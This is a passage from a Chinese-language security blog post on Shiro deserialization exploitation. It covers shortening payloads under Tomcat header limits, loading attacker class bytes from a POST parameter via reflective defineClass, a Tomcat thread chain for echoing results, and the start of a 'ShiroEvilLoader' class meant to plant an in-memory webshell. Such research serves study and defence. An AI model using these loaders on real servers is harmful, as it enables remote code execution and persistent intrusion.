 然后打内存马，但是我并没有复现成功，也许我的并发量太小了

payload可以被进一步缩短，在这不再叙述

但这始终不是一个优雅的方法，存在着许多缺点：

1. 并发并不能稳定触发创建新的processor，且爆破流量会被超级多的waf拦截
2. 初始包就接近Tomcat的size上限，如果业务导致请求包本身较大，会导致超过size限制
3. 对header长度的限制不在Tomcat配置，而是在WAF上，则直接无法bypass

所以跳过这个姿势的复现吧！

## defineClass POST

当目标无WAF或者WAF仅针对HTTP Header时，可以用defineClass加载POST参数。POST参数的长度肯定不算在Header里面

```java
			String classData=request.getParameter("classData");
            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
```

然后获取request的方法选择线程的方式获取（spring环境能直接从ClassLoader获取），这样初始字节码整体会短一些

线程方式构造回显见：https://godownio.github.io/2025/04/09/li-yong-java-object-searcher-gou-jian-tomcat-xian-cheng-hui-xian/

用的是这个链子：

```java
TargetObject = {org.apache.tomcat.util.threads.TaskThread} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [14] = {java.lang.Thread} 
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller} 
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint} 
         ---> handler = {org.apache.coyote.AbstractProtocol$ConnectionHandler} 
          ---> global = {org.apache.coyote.RequestGroupInfo} 
           ---> processors = {java.util.ArrayList<org.apache.coyote.RequestInfo>} 
            ---> [0] = {org.apache.coyote.RequestInfo}
```

```java
package org.exploit.third.shiro;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Base64;
import java.util.Iterator;

public class ShiroEvilLoader extends AbstractTranslet {
    public ShiroEvilLoader() {
        try {
            Object jioEndPoint = GetAcceptorThread();
            Object object = getField(getField(jioEndPoint, "handler"), "global");
            ArrayList processors = (ArrayList) getField(object, "processors");
            Iterator iterator = processors.iterator();
            while (iterator.hasNext()) {
                Object next = iterator.next();
```